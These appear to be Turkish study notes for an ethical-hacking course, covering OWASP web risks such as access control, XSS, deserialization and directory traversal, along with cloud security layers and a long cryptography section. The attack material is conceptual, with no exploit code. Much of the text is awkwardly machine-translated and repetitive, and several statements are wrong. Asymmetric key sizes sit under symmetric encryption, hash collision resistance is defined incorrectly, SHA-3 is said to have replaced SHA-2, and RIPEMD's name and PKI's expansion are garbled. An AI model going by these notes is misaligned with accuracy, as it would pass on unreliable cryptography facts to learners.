- Broken Access Control - Kimliği doğrulanmış kullanıcıların ne yapmasına izin verildiğine ilişkin kısıtlamalar genellikle gerektiği gibi uygulanmaz. Saldırganlar, diğer kullanıcıların hesaplarına erişmek, hassas dosyaları görüntülemek, diğer kullanıcıların verilerini değiştirmek, erişim haklarını değiştirmek gibi yetkisiz işlevlere ve/veya verilere erişmek için bu açıklardan yararlanabilir. 
- Security Misconfiguration - En sık görülen sorundur. Bu genellikle güvenli olmayan varsayılan yapılandırmaların, eksik veya ad hoc yapılandırmaların, açık bulut depolamanın, yanlış yapılandırılmış HTTP üstbilgilerinin ve hassas bilgiler içeren ayrıntılı hata mesajlarının bir sonucudur. Yalnızca tüm işletim sistemleri, çerçeveler, kitaplıklar ve uygulamalar güvenli bir şekilde yapılandırılmakla kalmayıp, aynı zamanda zamanında yamalanmalı/yükseltilmelidir. 
- Cross-Site Scripting XSS - Bir uygulama, uygun doğrulama veya kaçış olmadan yeni bir web sayfasında güvenilmeyen veriler içerdiğinde veya HTML veya JavaScript oluşturabilen bir tarayıcı API'si kullanarak mevcut bir web sayfasını kullanıcı tarafından sağlanan verilerle güncellediğinde ortaya çıkar. XSS, saldırganların kurbanın tarayıcısında kullanıcı oturumlarını ele geçirebilen, web sitelerini tahrif edebilen veya kullanıcıyı kötü amaçlı sitelere yönlendirebilen komut dosyaları yürütmesine olanak tanır. 
- Reflected XSS (Reflected XSS) 
- Saklanan XSS (Stored XSS) 
- DOM XSS 
- Insecure Deserialization - Genellikle uzaktan kod yürütülmesine olanak sağlar. Serileştirme kusurları uzaktan kod çalıştırılmasına neden olmasa bile, yeniden oynatma saldırıları, enjeksiyon saldırıları ve ayrıcalık yükseltme saldırıları gibi saldırıları gerçekleştirmek için kullanılabilir. 
- Using Components with Known Vulnerabilities - Kitaplıklar, çerçeveler ve diğer yazılım modülleri gibi bileşenler, uygulama ile aynı ayrıcalıklarla çalışır. Güvenlik açığı bulunan bir bileşenden yararlanılırsa, böyle bir saldırı ciddi veri kaybını veya sunucunun ele geçirilmesini kolaylaştırabilir. Bilinen güvenlik açıklarına sahip bileşenleri kullanan uygulamalar ve API'ler, uygulama savunmalarını zayıflatabilir ve çeşitli saldırılara ve etkilere olanak sağlayabilir. 
- Insufficient Logging & Monitoring - etersiz günlük kaydı ve izleme, olay yanıtıyla eksik veya etkisiz entegrasyonla birleştiğinde, saldırganların sistemlere daha fazla saldırmasına, kalıcılığı sürdürmesine, daha fazla sisteme dönmesine ve verileri kurcalamasına, çıkarmasına veya yok etmesine olanak tanır. İhlal araştırmalarının çoğu, bir ihlali tespit etme süresinin 200 günden fazla olduğunu ve genellikle dahili süreçler veya izleme yerine harici taraflarca tespit edildiğini göstermektedir. 

Ek Saldırılar 

- Directory Traversal - Saldırgan, sunucudaki kullanıcıların listesini içeren /etc/passwd dosyasının içeriği gibi hassas bilgileri alabilir; Günlük dosyaları, kaynak kodu, access.log vb. 
- Cross-site Request Forgery (CSRF) - Bir son kullanıcıyı, halihazırda kimliği doğrulanmış olduğu bir uygulamada istenmeyen eylemler gerçekleştirmeye zorlar 
- Kurban adına istenmeyen bir işlevi yerine getirmek için kurbanın kimliğini ve ayrıcalıklarını devralır. 
- Oturumu yakalar ve oturum açmış kullanıcının kimlik bilgilerine dayalı olarak bir istek gönderir. 
- Rastgele meydan okuma tokenları gönderilerek azaltılabilir. 

Bulut Güvenliği Kontrol Katmanları 

Bulut güvenliğiyle ilgili sorun, neyi test etmenize izin verildiği ve neyi test etmeniz gerektiğidir; Bir hipervizörle ilgili başka bir endişe de, eğer hipervizörün güvenliği ihlal edilmişse, o hipervizördeki tüm ana bilgisayarlar da olur. 

- Applications - SDCL (Software development cycle), WAF (web application firewall) 
- Information - DLP, encryption 
- Management - GRC, IAM , Patch & Konfigrasyonlar 
- Network - NIDS/NIPS, DNSSEC, QoS 
- Trusted Computing Model - Donanım geliştirmeleri yoluyla bilgisayar güvenlik sorunlarını çözmeye çalışır. 
- Roots of Trust (RoT) - işletim sistemi tarafından her zaman güvenilen TCM içindeki işlevler kümesi. 
- Computer & Network Storage - Encryption, Host-based firewall, HIDS/HIPS 
- Physical - Muhafızlar, Kapılar, Çitler vb. 😊 

Araçlar 

- CloudInspect - AWS EC2 kullanıcıları için sızma testi uygulaması. 
- CloudPassage Halo - Herhangi bir buluttaki sunucular için anında görünürlük ve sürekli koruma sağlar. 
- Dell Cloud Manager 
- Qualys Cloud Suite 
- Trend Micro's Instant-On Cloud Security 
- Panda Cloud Office Protection 

\16. Cryptography 

Kriptografinin amaçları: 

- C.I.A. + Nonrepudiation 
- Nonrepudiation - Bir alıcının gönderenin kimliğini sağlayabileceği ve taraflardan hiçbirinin göndermeyi reddedemeyeceği araçlar kümesi. 

Temel Terimler ve Kavramlar 

- Kriptografi 
- Aktarım halindeki veya bekleyen bilgileri korumaya yönelik çalışma. 
- Renders the information unusable to anyone who can't decrypt it. 
- Düz metni alır, kriptografik yöntem uygular, şifreli metne dönüştürür. 
- Kriptanaliz 
- Şifreli metni kırmak için kullanılan çalışma ve yöntemlerdir. 
- Doğrusal Kriptanaliz 
- Blok şifrelerde en iyi şekilde çalışır. 
- Diferansiyel Kriptanaliz 
- Simetrik anahtar algoritmaları için geçerlidir. 
- Girdilerdeki farklılıkları, her birinin sonucu nasıl etkilediğiyle karşılaştırır. 
- Entegre Kriptanaliz 
- Giriş ve çıkış karşılaştırması diferansiyel ile aynı; ancak, aynı blok boyutu girişinin birden çok hesaplamasını çalıştırır. 
- Düz metin mutlaka ASCII biçimi anlamına gelmez - yalnızca şifrelenmemiş veriler anlamına gelir. 
- Anahtar Kümeleme - Farklı şifreleme anahtarları, aynı düz metin mesajından aynı şifreli metni oluşturur. 

Nerede Şifrelenir ve Nerede Şifre Çözümlenir? 

- Aktarılan Veriler / Hareket halindeki veriler : Transport / Network 
- Veriler transfer halinde iken fazla koruma sağlamaz. 
- Birçok farklı anahtar, yönlendirici, cihazlar. 
- Ağ tabanlı koruma : 
- Firewall, IPS 
- Aktarım şifrelemesi sağlayın: 
- TLS, IPsec 
- Bekleyen Veri : Veri depolama alanında bulunur. 
- Hard disk, SSD, flash sürücüler 
- Data Şifreleme : 
- Toplu disk şifreleme 
- Veritabanı şifrelemesi 
- Dosya ya klasör düzeyinde şifreleme  
- İzinleri uygula : 
- Erişim kontrol listesini kontrol et 
- Sadece yetkilendirilmiş kişilere verilere erişmesine izin ver. 
- Kullanımdaki veriler / İşlemdeki veriler : 
- Veriler bellekte veya CPU kayıtlarında ve önbellekte. 
- Verilerin şifresi neredeyse her zaman çözülür. 

Şifreleme Algoritmaları 

- Algoritma – Adım adım problem çözme methodudur. 
- İki Genel Kriptografi Biçimi 
- İkame – Bitler diğer bitler ile değiştirilir. 
- Transpozisyon - Yerini almaz; sadece düzeni değiştirir. 
- Şifreleme Algoritmaları - Verileri şifrelemek ve şifresini çözmek için kullanılan matematiksel formüller. 
- Buhar Şifreleme (Steam Cipher) - okunabilir bitler, sürekli bir akışta birer birer şifrelenir. 
- Genellikle bir XOR işlemi tarafından yapılır. 
- Yüksek hızda çalışır. 
- Blok Şifreleme - Veri bitleri bloklara bölünür ve şifreyle beslenir. 
- Anahtar ve algoritma ile şifrelenmiş her veri bloğudur (genellikle 64 bit). 
- Akış şifrelerinden daha basit ve daha yavaştır. 
- XOR - Özel veya; girişler aynıysa (0,0 veya 1,1), işlev 0 döndürür; girişler aynı değilse (0,1 veya 1,0), işlev 1 döndürür. 
- Şifreleme için seçilen anahtarın veriden daha uzun olması gerekir; değilse, frekans saldırılarına karşı savunmasızdır. 

Simetrik Şifreleme 

- Simetrik Şifreleme - Şifreleme ve şifre çözme için tek bir anahtar veya oturum anahtarı gereklidir. 
- Şu şekilde bilinir :  
- Tek anahtarlı kriptografi 
- Gizli anahtar kriptografisi 
- Paylaşılan anahtar kriptografisi 
- Oturum anahtarı kriptografisi 

Verileri şifrelemek ve şifresini çözmek için bir anahtar kullanılır. 

- Büyük miktarda veri için kullanılabilir. 
- 128 bit veya daha büyük simetrik anahtarlar oldukça yaygındır. 
- Grup arttıkça daha fazla anahtar gerektiğinden, insan grupları için daha zordur. 
- Kullanımı çok hızlıdır. 
- Asimetrik şifrelemeden daha az ek yük. 
- Genellikle asimetrik şifreleme ile birleştirilir. 
- Simetrik Şifrelemenin Sorunları/Zayıf Yönleri: 
- Problemler anahtar dağıtımını ve yönetimini içerir / ölçeklenemez. 
- İnkar edilemez çünkü anahtarın bir kopyası herkeste vardır. 
- Herhangi biri anahtar sahipleri grubundan ayrıldığında anahtar yeniden oluşturulmalıdır. 

Kritosistem 

Anahtar özelliklerini, anahtar değişimi için iletişim gereksinimlerini tanımlar; şifreleme ve şifre çözme işlemi yoluyla çalışır. 

Örn. Oturum anahtarlarını değiş tokuş etmek için asimetrik şifreleme kullanma, ardından Simetrik şifreleme kullanarak iletişim kurma. 

- Emanet Anahtar (Key Escrow) : ("Adil" şifreleme sistemi olarak da bilinir), şifrelenmiş verilerin şifresini çözmek için gereken anahtarların, belirli koşullar altında yetkili bir üçüncü tarafın bu anahtarlara erişebilmesi için emanette tutulduğu bir düzenlemedir. 

Simetrik Şifreleme Sistemleri: 

- Şifreleme işleminde simetrik şifrelemeden daha büyük anahtarlar kullanılır; 3,072 bit veya daha büyük anahtar uzunlukları sıklıkla görülür. 

Asimetrik Şifreleme : 

Anahtar Çifti Kullanılır 

- Genel Anahtar (Public Key) : Verilen bu anahtarı herkes görebilir. 
- Özel Anahtar (Private Key) : Bu bilgiyi gizli tutun; şifre çözme için kullanılır; Özel anahtar, bir mesajı dijital olarak imzalamak için kullanılır. 

- Algoritmalar: 
- Diffie-Hellman - Bir anahtar değişim protokolü olarak geliştirildi; SSL ve IPSec'te kullanılır; dijital imzalardan ile kullanılmaz ise, MITM saldırılarına karşı savunmasızdır. 
- Elliptic Curve Cryptosystem (ECC) - Eliptik eğri üzerindeki noktaları logaritmik problemlerle birlikte kullanır; daha az işlem gücü kullanır; mobil cihazlar için tavsiye edilmektedir. 
- RSA - İki büyük asal sayı kullanarak güçlü şifreleme sağlar; bunların çarpanlara ayrılması 4096 bit'e kadar anahtar boyutları oluşturur. 
- El Gamal - Asal sayıların çarpanlarına ayırmaya dayalı değil; Ayrık logaritma problemlerinin çözümünü kullanır. 
- Tek dezavantajı, özellikle toplu şifreleme ve işlem gücü konusunda simetrikten daha yavaş olmasıdır. 

Hash'ler 

- Tek yönlü şifreleme 
- Mesajın Bütünlüğünü Doğrulama 
- Mesajın orijinalliğini doğrulama (menşe-log kanıtı ve reddedilemezlik bilgisi) 
- Orijinal mesajın digest'ten geri kazanılamayacağı anlamına gelir.Bu "digest" kelimesi, bir mesajın özetini veya özetini içeren bir veri yapısı anlamına gelir. Digest, orijinal mesajın tamamını içermemektedir ve sadece bir özeti veya özeti içerir. Bu nedenle, digest kullanılarak oluşturulan veri yapısı üzerinden orijinal mesajın tamamını geri kazanmak mümkün değildir. 
- Bu veri yapısı, parolaları saklamak amacıyla kullanılır ve parolaların gizliliğini korur. Bu sayede, parolaların güvenli bir şekilde saklandığı ve gizliliği korunduğu garanti edilir. 

Tek bir karakteri değiştirirseniz, tüm Hash değeri de değişir. Aşağıdaki örneğe bakın, son karakter olan '!' işaretini '.' olarak değiştirin. 

Bu cümle, bir Hash değerinin, içindeki verinin en ufak bir değişikliğine bile cevaben tamamen değişebileceğini anlatmaktadır. Örnek olarak verilen cümlede, Hash değerinde yer alan son karakter olan "!" işaretinin "." olarak değiştirilmesiyle birlikte, tüm Hash değeri de değişecektir. Hash değerleri, verinin bütünlüğünü ve güvenliğini kontrol etmek için kullanılan bir veri yapısıdır ve veride yapılan en ufak değişiklikler bile Hash değerlerini tamamen değiştirebilir. 

- String: hello world! 
- MD5 Hash: FC3FF98E8C6A0D3087D515C0473F8677 
- String: hello world. 
- MD5 Hash: 3C4292AE95BE58E0C58E4E5511F09647 

Mesaj Özeti 

Bir mesaj özeti veya hash, mesajın bütünlüğünü doğrulamak için mesajın orijinal hash değeri ile mesajı alır almaz oluşturulan hash değeri karşılaştırılarak kullanılabilir. İki hash değeri eşleşirse, bütünlük sağlanmıştır. Eşleşmezlerse, mesaj iletilirken ve alınırken değiştirilmiştir. 

İleti özetleri ayrıca şu şekilde adlandırılır: 

- Hashes 
- hash values 
- hash total 
- CRC 
- Fingerprint 
- Checksum 
- digital ID 

Karma (Hashing) Algoritmaları 

MD5 - İleti Özetleme Algoritması 

- İlk olarak Nisan 1992'de yayınlandı. 
- MD4’ ün yerini aldı. 
- 128 bit karma (hash) değerine sahip. 
- 1996 yılında güvenlik açıkları bulundu. 
- Çarpışma direncine sahip değil. Çarpışma direncine sahip olmayan bir veri yapısı, aynı verilerin farklı hash değerleri oluşturabileceği anlamına gelir. Bu durum, verinin güvenliğini ve bütünlüğünü tehlikeye atabilir. Bu nedenle, çarpışma direncine sahip olan veri yapıları daha güvenli ve tercih edilir. 

Çarpışma (Collision) - iki veya daha fazla dosya aynı çıktıyı oluşturduğunda oluşur. 

- Gerçekleşebilir ve bir saldırı olarak kullanılabilir; ancak nadir olur. 

Anahtar Alanı (KeySpace) - Bir şifreleme algoritması veya diğer güvenlik önlemlerinde anahtarların olası değerlerinin toplamını (yani anahtarların olası sayısını) temsil eden bir kavramı anlatmaktadır. Örnek olarak verilen "parola" örneğinde, parolaların olası sayısı ve çeşitliliği bu kavramla açıklanmaktadır. Bu kavram, güvenlik önlemlerinin etkinliğini ve güvenliğini ölçmek için kullanılır ve daha fazla olası değer sayısına sahip olan anahtarlar daha güvenli sayılır. 

DUHK Saldırısı - Bazı VPN (Virtual Private Network - Sanal Özel Ağ) uygulamalarında sabit anahtar kullanımının güvenlik açıklarına yol açabilmektedir. Özellikle, ANSI X9.31 standartı kullanan cihazların bu tür güvenlik açıklarına daha yatkın olduğu belirtilmektedir. Sabit anahtar, bir veri yapısında sabit olarak saklanan ve değiştirilemeyen bir anahtar olabilir. Bu tür anahtarların kullanılması, saldırganların anahtarlara erişimine yardımcı olabilir ve cihazların güvenliğini tehlikeye atabilir. Bu nedenle, sabit anahtar kullanımı önerilmez. 

Gökkuşağı Tablosu (Rainbow Tables) - Bir veri yapısının içinde önceden hesaplanmış hash değerlerinin bulunduğunu ve bu hash değerlerinin kullanılarak parolaları öğrenmeye çalışır. Hash değerleri, verinin bütünlüğünü ve güvenliğini kontrol etmek için kullanılan bir veri yapısıdır ve veride yapılan en ufak değişiklikler bile hash değerlerini tamamen değiştirebilir. Önceden hesaplanmış hash değerleri, sistemlerdeki parolaları tahmin etmek ve öğrenmek amacıyla kullanılabilir. Bu tür veri yapıları, parolaların güvenliğini tehlikeye atabilir ve kötü amaçlı saldırılara açık hale getirebilir. 

SHA - Secure Hash Algorithm 

- NSA tarafından geliştirilmiştir. 

SHA-1 

- Yaygın olarak kullanılmaktadır. 
- 160 bit özet değerine sahiptir. 
- 2005 yılında veri yapısının zayıf olması nedeniyle çarpışma saldırılarına karşı açık olduğu yayınlanmıştır. 

SHA-2 Family 

- SHA-256 | minor version: SHA-224 
- SHA-512 | minor version: SHA-384 

SHA-3 

- Keccack adlı bir hash işlevi kullanır ve SHA-2 ile aynı uzunluğa sahiptir. 
- SHA-1 ve SHA-2, SHA-3 olarak bilinen en son SHA yinelemesi ile değiştirilmiştir. 

HMAC 

Hash Mesaj Kimlik Doğrulama Kodu - Simetrik anahtar ile birlikte mesajın kimlik doğrulaması ve bütünlüğünü doğrulamak için kullanılır. MAC, simetrik anahtar ile birlikte kullanılarak mesajın kimlik doğrulaması ve bütünlüğünün doğrulanması için kullanılır. HMAC, bir mesajın orijinal haliyle alınan mesaj arasındaki farklılıkları tespit etmeye yarar. Bu sayede, mesajın kimliği doğrulanır ve bütünlüğü sağlanır. HMAC, güvenlik önlemleri ve şifreleme algoritmaları gibi birçok alanda kullanılır. 

- Veri bütünlüğünü ve gerçekliğini doğrular. 
- Süslü ya da asimetrik şifreleme biçimi gerektirmez. 
- Ağ Şifreleme protokollerinde yaygın olarak kullanılmaktadır. 
- IPsec, TLS. 
- Her iki taraf da aynı anahtar bilgilerinin girilmesi gerekmektedir.  

RIPEMD 

RACE Bütünlük Önemli Öğeleri Değerlendirme Mesaj Özeti. Bu veri yapısı, mesajın bütünlüğünü kontrol etmek için kullanılır ve mesajın değiştirilmemesi ve güvenliğinin korunmasını sağlar. RACE, Avrupa Birliği tarafından desteklenen bir kuruluştur ve iletişim teknolojileri alanında araştırma ve geliştirme faaliyetleri gerçekleştirir. 

- Yaygın olarak kullanılmaz. 
- Açık standartlara sahiptir. 
- 128, 168, 256, 320 bit digests (RIPEMD-128, RIPEMD-256, RIPEMD-320) 
- 2004 yılında çarpışma sorununlarının olduğu bulunmuştur. 
- RIPEMD-160 ile değiştirilmiştir. Şu ana dek herhangi bir çarpışma sorunu gözlenmemiştir. 
- MD4 tasarımına dayalıdır. Ancak SHA-1’ e benzer performans gösterir. 

Tuş Gerdirme (Keystretching) 

Crack etmeyi daha da zor hale getirmek için çok uzun bir tuz ve hash döngülerinin müthiş sayısını birleştirin. (örneğin, hashli parolayı N kez hashleyin) 

En popüler iki Anahtar genişletme kütüphanesi : 

- PBKDF2 (Password-Based Key Derivation Function 2) algorithm 
- o Part of RSA public key cryptography standards (PKCS #5, RFC 2898) 
- bcrypt 
- Parolalardan hash oluşturur. 
- UNIX cryp kitaplığının bir uzantısıdır. 
- Birden çok karma tur gerçekleştirmek için Blowfish şifresini kullanır. 

Örnek : 

- PBKDF2 

Password: 123456  
Hash:  
rYoSDg62evyzhE1+lWBa9A==:YaeMu71c8KU3H0RYFPle0Q== 

- Bcrypt 

Password: 123456 
Hash:  
$2b$10$vES9mCPsE10//vOc1u01XeUVmJrZyHGMPaRfo39OIUoJ2g7iPtDnu 

Anahtar Akışı (Key Streaming) - Anahtarın tek tek karakterlerinin bir algoritma aracılığıyla gönderilmesini ve çıktıyı değiştirmek için matematiksel bir XOR işlevinin kullanılmasını içerir. 

Kriptografik Tek Kullanımlık Sayı 

Kriptografik randomizasyon şemaları 

- Bir kez kullanıldı - 'şimdilik'/ şimdilik 
- Rastgele veya sözde rastgele bir sayı 
- Normal bir şekilde tahmin edilemeyecek bir şey. 
- Sayaç gibi de düşünülebilir. 
- Oturum açma işlemi sırasında tek kullanımlık bir kod kullanılmalıdır., 
- Sunucu size bunu bir kez verir. 
- Parolanızın hash değerini nonce kullanarak hesaplayın." 
- Parola hash değeri, parolanın bir girdi olarak girdiği bir hash fonksiyonu tarafından üretilen bir çıktıdır. Hash değerleri, girdi verisinin bir özetidir ve genellikle çok uzun olurlar. Hash değerleri, parolaların güvenliğini sağlamak için sıklıkla kullanılır. Örneğin, bir parolanın hash değeri bir sistem tarafından depolanır ve kullanıcının parolasını girdiği zaman, sistem parolanın hash değerini yeniden hesaplar ve depolanan hash değeriyle karşılaştırır. Eğer iki hash değeri eşleşirse, kullanıcının parolası doğrulanır ve sistem kullanıcıya erişim izni verir.Nonce, rastgele üretilen bir sayı veya dizgi olup, hash fonksiyonu tarafından kullanılır. Nonce, parolanın hash değerini hesaplamak için kullanıldığında, parolanın hash değerini her seferinde farklı hale getirir. Bu sayede, sistemler parolaların hash değerlerini depolarken nonce değerini de depolayarak parolaların güvenliğini arttırır. 
- Her parola hash değerinin barındırıcıya gönderildiğinde farklı olacağını, bu nedenle bir tekrar saldırısının çalışmayacağını belirtmektedir. Türkçe çevirisi şu şekilde olabilir: "Barındırıcıya gönderilen her parola hash değeri farklı olacağından, bir tekrar saldırısı çalışmayacaktır." 
- Parola hash değeri, parolanın bir girdi olarak girdiği bir hash fonksiyonu tarafından üretilen bir çıktıdır. Hash değerleri, girdi verisinin bir özetidir ve genellikle çok uzun olurlar. Hash değerleri, parolaların güvenliğini sağlamak için sıklıkla kullanılır. Örneğin, bir parolanın hash değeri bir sistem tarafından depolanır ve kullanıcının parolasını girdiği zaman, sistem parolanın hash değerini yeniden hesaplar ve depolanan hash değeriyle karşılaştırır. Eğer iki hash değeri eşleşirse, kullanıcının parolası doğrulanır ve sistem kullanıcıya erişim izni verir. 

Tekrar saldırısı (replay attack), bir ağdaki bir veri paketinin bir başka konumda tekrar yayınlanması suretiyle gerçekleştirilen bir saldırı türüdür. Bu saldırı türü, bir ağdaki bir veri paketinin bir kez gönderilmesinin, sistemler tarafından bir kere algılanarak işlenmesinin beklenildiği durumlarda özellikle tehlikeli olabilir. Örneğin, bir parola hash değeri bir sisteme gönderildiğinde, sistem parolanın doğruluğunu kontrol eder ve eğer parola doğru ise, sistem kullanıcıya erişim izni verir. Ancak, eğer bir tekrar saldırısı gerçekleştirilirse ve parolanın hash değeri bir kez daha gönderilirse, sistem parolanın hash değerini tekrar algılar ve kullanıcıya izin verir. Bu nedenle, parola hash değerlerinin her seferinde farklı bir şekilde verilmesi gerekmektedir. 

Başlatma vektörleri (IV) 

- Bir tür nonce’ dur. 
- Bir şifreleme şemasının rastgele hale getirilmesi için kullanılır. Bir şifreleme şeması, bir veri setinin güvenliğini sağlamak için kullanılan bir yöntemdir. Şifreleme, verilerin okunamayacak hale getirilerek depolanması veya iletilerek güvenliğini sağlamak amacıyla kullanılır. Bir şifreleme şeması, verileri nasıl şifreleyeceğini ve nasıl çözeceğini belirten bir kurallar dizisidir. Rastgele hale getirme (randomization), bir süreç veya sistemi belirli bir ölçüde rastgele hale getirmeyi amaçlar. Bu, sistemlerin daha güvenli hale getirilmesi amacıyla sıklıkla kullanılır. Örneğin, bir şifreleme şemasının rastgele hale getirilmesi, şifreleme yöntemlerinin değiştirilmesi veya şifrelenen verilerin birleştirilmesi gibi yöntemlerle gerçekleştirilebilir. Bu sayede, sistemler daha az tahmin edilebilir hale getirilir ve saldırganların sistemleri zaafiyetlerine ulaşma ve sistemleri sınamaya çalışmaları engellenir. 
- Rastgele hale getirme (randomization), bir süreç veya sistemi belirli bir ölçüde rastgele hale getirmeyi amaçlar. Bu, sistemlerin daha güvenli hale getirilmesi amacıyla sıklıkla kullanılır. Örneğin, bir şifreleme şemasının rastgele hale getirilmesi, şifreleme yöntemlerinin değiştirilmesi veya şifrelenen verilerin birleştirilmesi gibi yöntemlerle gerçekleştirilebilir. Bu sayede, sistemler daha az tahmin edilebilir hale getirilir ve saldırganların sistemleri zaafiyetlerine ulaşma ve sistemleri sınamaya çalışmaları engellenir. Rastgele hale getirme işleminin ne kadar rastgele olacağı, sistemin güvenliğine olumlu etkisi açısından önemlidir. Genel olarak, sistemlerin rastgele hale getirilmesi işlemi daha rastgele olursa, sistemler daha az tahmin edilebilir hale getirilir ve bu sayede sistemlerin güvenliği daha da arttırılır. Bu nedenle, "daha rastgele olunması daha iyidir" ifadesi, sistemlerin rastgele hale getirilmesi işleminin daha etkili olmasını ve sistemlerin güvenliğinin daha da arttırılmasını amaçlar. 
- Şifreleme şifreleri (encryption ciphers), verilerin güvenliğini sağlamak için kullanılan bir yöntemdir. Şifreleme, verilerin okunamayacak hale getirilerek depolanması veya iletilerek güvenliğini sağlamak amacıyla kullanılır. Bir şifreleme şifresi, verileri nasıl şifreleyeceğini ve nasıl çözeceğini belirten bir kurallar dizisidir. WEP (Wired Equivalent Privacy), bir kablosuz ağda veri güvenliğini sağlamak için kullanılan bir şifreleme standardıdır. WEP, eski bir şifreleme standardı olmasına rağmen hala kullanılmaktadır ve kablosuz ağların güvenliğini sağlamaya yönelik bir çözümdür. SSL (Secure Sockets Layer), bir ağda veri güvenliğini sağlamak için kullanılan bir güvenlik protokolüdür. SSL, verilerin iletim sırasında şifrelenmesini sağlar ve verilerin güvenliğini arttırır. SSL, internet tarama, e-posta ve benzeri uygulamalar için sıklıkla kullanılır. Eski SSL uygulamaları, SSL protokolünün eski sürümleri olarak adlandırılır ve genellikle daha az güvenliği sağlar ve güncel sürümlerine göre daha az popülerdir. 

Dijital imzalar 

- Bir mesajı imzalarken, mesajı özel anahtarınızla imzalarsınız ve alıcı mesajın hash değerini genel anahtarınızla çözer. İmza (signature), bir verinin veya mesajın kaynak ve doğruluğunun kanıtlanması amacıyla kullanılan bir yöntemdir. İmza, veri veya mesajın bir hash değerine dönüştürülmesi ve hash değerinin bir şifreleme anahtarı kullanılarak şifrelenmesi ile oluşturulur. İmza, verinin veya mesajın değiştirilmemiş olduğunu ve verinin veya mesajın kaynağının doğru olduğunu kanıtlamayı amaçlar. Özel anahtar (private key), bir anahtar çiftinin bir parçası olarak tanımlanır. 
- Digital Signature Algorithm (DSA) - Dijital imza (digital signature), bir verinin veya mesajın kaynak ve doğruluğunun kanıtlanması amacıyla kullanılan bir yöntemdir. Dijital imza, veri veya mesajın bir hash değerine dönüştürülmesi ve hash değerinin bir şifreleme anahtarı kullanılarak şifrelenmesi ile oluşturulur. Dijital imza, verinin veya mesajın değiştirilmemiş olduğunu ve verinin veya mesajın kaynağının doğru olduğunu kanıtlamayı amaçlar. FIPS 186-2 (Federal Information Processing Standard), ABD federal hükümeti tarafından kullanılan bir standarttır ve dijital imzaların oluşturulması ve doğrulanmasında kullanılır. Bu standart, dijital imzaların nasıl oluşturulacağı ve doğrulanacağı konusunda kuralları içerir. 

Digital Signature Standard (DSS): 

- NIST, ABD hükümeti tarafından kullanım için onaylanmış dijital imza algoritmalarını ve şifreleme algoritmalarını belirten bir belge yayınlar. 

PKI Sistemi 

Kamu Anahtarı İstihbaratı (PKI) - bir kişinin kimliğini doğrulamak ve doğrulamak için tasarımlanmış bir yapıdır. 

- Aynı zamanda insanların veya cihazların kamu anahtarlarına bağlanmasını da ifade eder. 
- Sertifika yetkilisi (CA) 
- Tamamen güvene dayalıdır. 
- X.509 v3 sertifikalarının, X.500 standartları ailesine ait olan ve en yaygın olarak kullanılan bir sertifika biçimi olduğunu belirtir. X.509 sertifikaları, bir sertifika yetkilisi tarafından imzalanan ve bir kişinin veya cihazın kimliğini doğrulayan elektronik belgelerdir. Bu sertifikalar, birçok farklı amaç için kullanılabilir, ancak en yaygın olarak, bir sistemin güvenilirliğini ve güvenliğini doğrulamak ve bir ağ üzerinde güvenli bir şekilde iletişim kurulmasını sağlamak için kullanılır. 

Dijital Sertifikalar 

- Sertifika - Sertifikaların bir kullanıcının kimliğini doğrulamak ve aynı zamanda inkar edilemezlik sağlamak için kullanılan elektronik dosyalar olduğunu belirtir. Bir sertifika, bir sertifika yetkilisi tarafından imzalanan ve bir kişinin veya cihazın kimliğini doğrulayan bir elektronik belgedir. Sertifikalar, birçok farklı amaç için kullanılabilir, ancak en yaygın olarak, bir sistemin güvenilirliğini ve güvenliğini doğrulamak ve bir ağ üzerinde güvenli bir şekilde iletişim kurulmasını sağlamak için kullanılır. 
- X.509 – Dijital sertifikalar için kullanılan standart. Tüm detaylarını zaten X.509 v3’ de belirtmiştik. 
- Dijital Sertifikanın İçeriği: 
- Version - Sertifika sürümlerinin bir sertifika biçimini tanımladığını belirtir. Örneğin, X.509 v3 sertifikaları, X.509 sertifika standartının üçüncü sürümü olarak tanımlanır ve en yaygın olarak kullanılan bir sertifika biçimidir. Sertifika sürümleri, sertifikaların içeriğini ve kullanım amaçlarını tanımlayan özel bilgiler içerir ve bu bilgiler, bir sertifikayı doğrulamak ve geçerliğini belirlemek için kullanılır. 
- Serial Number - Seri numaralarının sertifikaları benzersiz olarak tanımlamak için kullanıldığını belirtir. Seri numaraları, bir sertifika yetkilisi tarafından verilen benzersiz bir sayıdır ve her bir sertifika için farklı olur. Seri numaraları, sertifikaların geçerliliğini doğrulamak ve ayrıca sertifikalar arasında benzersiz bir şekilde ayrım yapmak için kullanılır. 
- Subject - Sertifikaların konusunun kimin veya neyin tanımlandığını belirtir. Sertifikaların konusu, sertifika içinde tanımlanan kişi veya cihazın kimliğidir. Örneğin, bir sertifika yetkilisi tarafından imzalanan bir sertifika, bir kişinin kimliğini doğrulamak için kullanılırken, bir cihazın kimliğini doğrulamak için kullanılan bir sertifika, cihazın seri numarasını ve diğer özel bilgilerini içerebilir. Sertifikaların konusu, sertifikaların geçerliliğini ve doğruluğunu doğrulamak için kullanılır. 
- Algorithm ID - (İmza Algoritması), bir sertifikanın oluşturulması sırasında kullanılan algoritmayı gösterir. Bu terim, bir sertifika oluşturulurken kullanılan imza algoritmasını belirtir. Sertifikalar, birçok farklı imza algoritması kullanılarak oluşturulabilir, ancak en yaygın olarak kullanılanlar RSA, DSA ve ECDSA'dır. Imza algoritması, sertifikayı oluşturan kişinin kimliğini doğrulamak için kullanılan bir yöntemdir ve sertifika oluşturulurken kullanılan algoritma, sertifikanın güvenilirliğini etkileyebilir. 
- Issuer - (Yayıncı) terimi, bir sertifikanın gerçekliğini doğrulayan kişi veya kuruluşu gösterir. Bu terim, bir sertifikanın oluşturulması sırasında sertifikayı oluşturan kişi veya kuruluşun kimliğini belirtir. Örneğin, bir SSL sertifikasını oluşturan bir kuruluş, bir kullanıcının bir web sitesine girdiği zaman tarama işlemini gerçekleştirir ve doğrulama işlemini tamamlar. Bu işlem sırasında, sertifika yayıncısı tarafından doğrulama işlemi gerçekleştirilir ve sertifika kullanıcı tarafından onaylanır. Sertifika yayıncısı, sertifikanın gerçekliğini doğrulayan kişi veya kuruluştur. 
- Valid From and Valid To – (Geçerli İtibaren) ve "Valid To" (Geçerli Bitiş) terimleri, bir sertifikanın geçerli olacağı tarihleri gösterir. "Valid From" tarihi, sertifikanın geçerli olmaya başladığı tarihi belirtir ve "Valid To" tarihi ise sertifikanın geçerli olma süresinin bitiş tarihini gösterir. Bu tarihler, sertifikanın geçerliliğini doğrulamak ve kullanımını sınırlamak için kullanılır. Örneğin, bir SSL sertifikasının geçerli olduğu tarih aralığı, bir web sitesinin güvenilirliğini doğrulamak için kullanılır ve bu tarihler, sertifikanın geçerliliğini doğrulayan yayıncı tarafından belirlenir. 
